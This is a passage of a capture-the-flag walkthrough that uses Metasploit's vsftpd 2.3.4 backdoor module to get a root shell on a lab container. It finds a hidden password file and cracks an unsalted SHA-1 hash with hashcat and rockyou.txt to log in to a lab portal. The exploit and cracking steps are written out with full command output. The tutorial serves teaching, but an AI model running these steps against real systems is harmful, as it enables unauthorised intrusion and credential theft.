Module options (exploit/unix/ftp/vsftpd_234_backdoor):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   CHOST                     no        The local client address
   CPORT                     no        The local client port
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT    21               yes       The target port (TCP)


Exploit target:

   Id  Name
   --  ----
   0   Automatic


View the full module info with the info, or info -d command.
```

Here, we see `RHOSTS` and `RPORT` are required.

> When using metasploit, you will often see L... and R... -- L commonly refers to the attacker, whereas R commonly refers to the target.

We will use `set` to configure these settings:

```
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set RHOSTS 172.17.0.3
RHOSTS => 172.17.0.3
```

Now, we are ready to use the exploit.

## 8c. Perform the exploit

Using `exploit`, we can run our attack.

```
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > exploit

[*] 172.17.0.3:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 172.17.0.3:21 - USER: 331 Please specify the password.
[+] 172.17.0.3:21 - Backdoor service has been spawned, handling...
[+] 172.17.0.3:21 - UID: uid=0(root) gid=0(root) groups=0(root)
[*] Found shell.
[*] Command shell session 1 opened (172.17.0.1:35421 -> 172.17.0.3:6200) at 2024-12-20 01:12:48 -0500
```

If successful, you will see a similar output, with your individual topology details rather than mine (if they are different).

However, you will not see a shell indicator (`#` or `$`). Instead, you will be given a blank line to perform your commands.

## 8d-a. Locating the FTP server

> Important: 
> - If you have an error when executing commands, you may not see it
> - Some commands may not be present

> Important: For clarity, I will be adding my own shell indicator `>`. Input will begin with a `>`, whereas output will not have an indicator.

A simple `whoami` will verify that we are indeed `root`.

```
> whoami       
root
```

Furthermore, `pwd` will show us where we are currently at within the system.
```
> pwd
/
```

Using `ls`, we can see that we are not within the ftp server.
```
> ls
ls
bin
boot
dev
etc
home
lib
lib32
lib64
libx32
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
```

Often, FTP servers can be found at a path similar to `/var/ftp`. We can find this ourselves though using `find`. 

> The syntax of `find` for our specific search : `find <where_to_search> -name`

> We will send the error output (`2`) to `/dev/null` (similar to trash) so that we only see valid paths. This is optional, as this shell may not send error output depending on your configuration.

```
> find / -name ftp 2>/dev/null
/usr/lib/apt/methods/ftp
/var/ftp
```

As we thought, the FTP server is located at `/var/ftp` -- let's go there.

## 8d-b. Navigating the FTP server

```
> cd /var/ftp
> ls -la
total 828
dr-xr-xr-x 4 ftp      ftp        4096 Dec 13 02:41 .
drwxr-xr-x 1 root     root       4096 Dec 13 02:41 ..
drwxrwxr-- 4 beary    beary      4096 Dec 13 02:41 beary
drwxrwxr-- 3 franklin franklin   4096 Dec 13 02:41 franklin
-rwxrwxr-x 1 root     root     134743 Dec 13 00:55 key.png
-rwxrwxr-x 1 root     root     689793 Dec  4 02:41 lock.png
```

After changing to the directory, we can begin searching through the `beary` directory.

```
> cd beary
> ls -la
total 16
drwxrwxr-- 4 beary beary 4096 Dec 13 02:41 .
dr-xr-xr-x 4 ftp   ftp   4096 Dec 13 02:41 ..
drwxrwxr-- 3 beary beary 4096 Dec 13 02:41 .quiet
drwxrwxr-- 2 beary beary 4096 Dec 13 02:41 home
```

Similar to franklins directory, it seems beary has chosen to hide information in the same manner. Let's follow the path.

```
> cd .quiet
> ls -la
total 12
drwxrwxr-- 3 beary beary 4096 Dec 13 02:41 .
drwxrwxr-- 4 beary beary 4096 Dec 13 02:41 ..
drwxrwxr-- 2 beary beary 4096 Dec 13 02:41 .quieter
> cd .quieter
> ls -la
total 12
drwxrwxr-- 2 beary beary 4096 Dec 13 02:41 .
drwxrwxr-- 3 beary beary 4096 Dec 13 02:41 ..
-rwxrwxr-- 1 beary beary  439 Dec 13 02:41 .super_quiet
```

Looking at the file type indicator at the beginning of the permission set (`d` / `-`), we see that we have reached the end of the hidden files. We can read this file as we would any other.

```
> cat .super_quiet

----------------------------------

- SUPER SECRET PASSWORD DATABASE -

-    Meant for me and me ONLY    -

----------------------------------

svssl:beary:836b7786225fbabdf3fdc128fe9fc3fb9942c012
spotify:beary:f1034563b5dddacd77a4372649b5fa86bc90ffedd7ff6c6b477c24191be75539
kholsrewards:papabear:43fa6ee5629494381b31ddabc36d1beb99b0e880bd481aeb5661bf53c998a270
ftp:beary:c62373dbc3a30a2f7d0d88dd652bb047e754023e8b4c06aa429af76f74daad32
```

Perfect! We can copy and paste the `svssl` hash into another terminal window.

Exit metasploit through the following, with `^C` being the shortcut to cancel terminal execution:
```
> ^C
Abort session 1? [y/N]  
> y

[*] 172.17.0.3 - Command shell session 1 closed.  Reason: User exit
> msf6 exploit(unix/ftp/vsftpd_234_backdoor) > exit
```

---

# 9. Cracking the credentials

We can follow the same workflow as we did when we were cracking franklins credentials previously.

```
┌──(kali㉿kali)-[~]
└─$ hash-identifier "836b7786225fbabdf3fdc128fe9fc3fb9942c012"                     
   #########################################################################
   #     __  __                     __           ______    _____           #
   #    /\ \/\ \                   /\ \         /\__  _\  /\  _ `\         #
   #    \ \ \_\ \     __      ____ \ \ \___     \/_/\ \/  \ \ \/\ \        #
   #     \ \  _  \  /'__`\   / ,__\ \ \  _ `\      \ \ \   \ \ \ \ \       #
   #      \ \ \ \ \/\ \_\ \_/\__, `\ \ \ \ \ \      \_\ \__ \ \ \_\ \      #
   #       \ \_\ \_\ \___ \_\/\____/  \ \_\ \_\     /\_____\ \ \____/      #
   #        \/_/\/_/\/__/\/_/\/___/    \/_/\/_/     \/_____/  \/___/  v1.2 #
   #                                                             By Zion3R #
   #                                                    www.Blackploit.com #
   #                                                   Root@Blackploit.com #
   #########################################################################
--------------------------------------------------

Possible Hashs:
[+] SHA-1
[+] MySQL5 - SHA-1(SHA-1($pass))

Least Possible Hashs:
[+] Tiger-160
[+] Haval-160
[+] RipeMD-160
[+] SHA-1(HMAC)
[+] Tiger-160(HMAC)
[+] RipeMD-160(HMAC)
[+] Haval-160(HMAC)
[+] SHA-1(MaNGOS)
[+] SHA-1(MaNGOS2)
[+] sha1($pass.$salt)
[+] sha1($salt.$pass)
[+] sha1($salt.md5($pass))
[+] sha1($salt.md5($pass).$salt)
[+] sha1($salt.sha1($pass))
[+] sha1($salt.sha1($salt.sha1($pass)))
[+] sha1($username.$pass)
[+] sha1($username.$pass.$salt)
[+] sha1(md5($pass))
[+] sha1(md5($pass).$salt)
[+] sha1(md5(sha1($pass)))
[+] sha1(sha1($pass))
[+] sha1(sha1($pass).$salt)
[+] sha1(sha1($pass).substr($pass,0,3))
[+] sha1(sha1($salt.$pass))
[+] sha1(sha1(sha1($pass)))
[+] sha1(strtolower($username).$pass)
--------------------------------------------------
 HASH: 
```

Seems like we are working with an unsalted `SHA-1` hash.

As we already know our attack mode (`0` - `Straight`), we need only to identify the hash code for `SHA-1`. 

> Mind the difference between `SHA-1` and `SHA` when searching for the hash code.

```
┌──(kali㉿kali)-[~]
└─$ hashcat --help | grep -w "SHA1" 
    100 | SHA1
    ...
```

`100`. Let's crack the hash and direct the results to the same output file as before.

```
┌──(kali㉿kali)-[~]
└─$ hashcat -m 100 -a 0 "836b7786225fbabdf3fdc128fe9fc3fb9942c012" rockyou.txt -o cracked.txt 
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, LLVM 17.0.6, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
============================================================================================================================================
* Device #1: cpu-haswell-AMD Ryzen 5 5600X 6-Core Processor, 2918/5900 MB (1024 MB allocatable), 4MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Early-Skip
* Not-Salted
* Not-Iterated
* Single-Hash
* Single-Salt
* Raw-Hash

ATTENTION! Pure (unoptimized) backend kernels selected.
Pure kernels can crack longer passwords, but drastically reduce performance.
If you want to switch to optimized kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Temperature abort trigger set to 90c

Host memory required for this attack: 1 MB

Dictionary cache hit:
* Filename..: rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 100 (SHA1)
Hash.Target......: 836b7786225fbabdf3fdc128fe9fc3fb9942c012
Time.Started.....: Fri Dec 20 01:47:43 2024 (1 sec)
Time.Estimated...: Fri Dec 20 01:47:44 2024 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  6973.2 kH/s (0.07ms) @ Accel:512 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 4849664/14344385 (33.81%)
Rejected.........: 0/4849664 (0.00%)
Restore.Point....: 4847616/14344385 (33.79%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: p63296386 -> p3L!k4n0
Hardware.Mon.#1..: Util: 31%

Started: Fri Dec 20 01:47:33 2024
Stopped: Fri Dec 20 01:47:44 2024
```

Again, this shouldn't take very long.

---

# 10. Using the cracked credentials to gain access to the SVSSL portal

Using, `cat`, we are shown the cracked SHA-1 credentials.

```
┌──(kali㉿kali)-[~]
└─$ cat cracked.txt 
9a9f75c7bf95c80832d02d572059a4d0:fr4nkl1n
836b7786225fbabdf3fdc128fe9fc3fb9942c012:p4p4b34r
```

We will follow an identical workflow as when logging into SVSSL with Franklin's credentials.

> Do this in a new tab, as you will need both tabs (previous and current) for flag verification after the event.

In a new tab, navigate to `http://172.17.0.2:80/`.

Use the following credentials to gain access to `beary`:

```
Beary
p4p4b34r
```

> If you see `Successfully logged into franklin` after entering the credentials in the current tab, `logout` of the current tab and try again.

Success! We have retrieved the second flag!

---

Congratulations! I hope you have followed along with the steps and have learned something new.

As for flag verification, this is only necessary if you are a member of the Cyber Lions Discord (https://discord.gg/csxvHzpbNy). 

By verifying your flags, you will receive a `CTF 2024` role indicating your completion of the event.

Flag verification format:
```
A single screenshot showing the four following points:
- The flag received by accessing Franklin's account
- The flag received by accessing Beary's account
- The time
- Your information
	- Name
	- "Discord handle" (ENCLOSED IN DOUBLE-QUOTES)
```

Here is an example:



Please send me either an email (raykhelson.ielon@gmail.com) or a direct message via Discord @thesilliestgoose. with your screenshot included.

***Thank you!***
